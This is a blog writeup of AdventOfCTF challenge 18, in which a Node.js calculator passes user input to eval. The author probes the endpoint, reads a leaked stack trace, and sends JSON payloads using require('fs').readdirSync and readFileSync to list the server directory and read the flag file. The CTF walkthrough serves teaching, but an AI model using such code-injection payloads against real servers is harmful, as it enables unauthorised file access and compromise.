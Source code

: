 +++
author = "Maik de Kruif"
title = "Challenge 18 - AdventOfCTF"
date = 2021-01-06T23:04:52+01:00
description = "A writeup for challenge 18 of AdventOfCTF."
cover = "img/adventofctf/be40bcd25e7487440a64b13cd32049b2.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "javascipt",
    "nodejs",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 1800

## Description

We created a calculator for Santa to figure out how many days until Christmas remain. It is not finished yet, it will only return what you give it. Sort of. The flag is in flag.txt.

Visit <https://18.adventofctf.com> to start the challenge.

## Recon

Upon opening the challenge website we're greeted with an input field which asks us to "enter the nr of days until christmas".

When opening the source of the page we also find some javascript code:

```js
function send() {
  let calc = $("#calc")[0].value;
  if (calc.length > 0) {
    $.ajax({
      url: "/calc",
      type: "POST",
      data: '{"calc": "' + calc + '" }',
      contentType: "application/json; charset=utf-8",
      dataType: "json",
    }).always(function (data) {
      text = data;
      if (data.responseText) {
        text = data.responseText;
      }
      $("#msg")[0].innerHTML = "<b>" + text + "</b>";
    });
  }
}
```

As the description tells us it's a calculator, let's try entering `3+4` in the input field. It will make a `POST` request to `/calc`, which will return `7`.

## Finding the vulnerability

If we capture the request with a proxy like Burp, we can see it sends a `POST` request with some JSON data. It looks like this:

```json
{
  "calc": "3+4"
}
```

To find out how the calculator works internally we can try to send some data it doesn't expect to try to break it. An example would be sending an empty post request.

If we try that we get the following error back:

```text
TypeError: Cannot read property 'toString' of undefined
    at /opt/app/server.js:14:13
    at Layer.handle [as handle_request] (/opt/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/opt/app/node_modules/express/lib/router/route.js:137:13)
    at /opt/app/node_modules/body-parser/lib/read.js:130:5
    at invokeCallback (/opt/app/node_modules/raw-body/index.js:224:16)
    at done (/opt/app/node_modules/raw-body/index.js:213:7)
    at IncomingMessage.onEnd (/opt/app/node_modules/raw-body/index.js:273:7)
    at IncomingMessage.emit (events.js:203:15)
    at endReadableNT (_stream_readable.js:1145:12)
    at process._tickCallback (internal/process/next_tick.js:63:19)
```

This hints at a NodeJS Express server, but it does not give us much information about the calculation besides a `toString` which would be unnecessary if the output would always be a number. This could hint at an `eval` vulnerability.

A NodeJS Express server often has a `res` variable to which the request result is written. Let's try to get it by entering it in de input field.

```json
{
  "calc": "res"
}
```

The result is `[object Object]` which means the input is evaluated.

## Exploit

Now we know the input is evaluated, we can try to read the flag. To find the file, let's try to list the directory contents.

In NodeJS we can do this by using the `fs` module and using the `readdirSync()` function. The resulting code would be `require('fs').readdirSync('.')`.

The resulting request:

```json
{
  "calc": "require('fs').readdirSync('.')"
}
```

This gives us the following result:

```text
flag.txt,node_modules,package-lock.json,package.json,public,server.js
```

Now that we know the location of the flag (`flag.txt`), we can use the `readFileSync()` function to read the file:

```json
{
  "calc": "require('fs').readFileSync('flag.txt')"
}
```

## Solution

We got the flag! It is `NOVI{N3v3r_us3_eval}`.
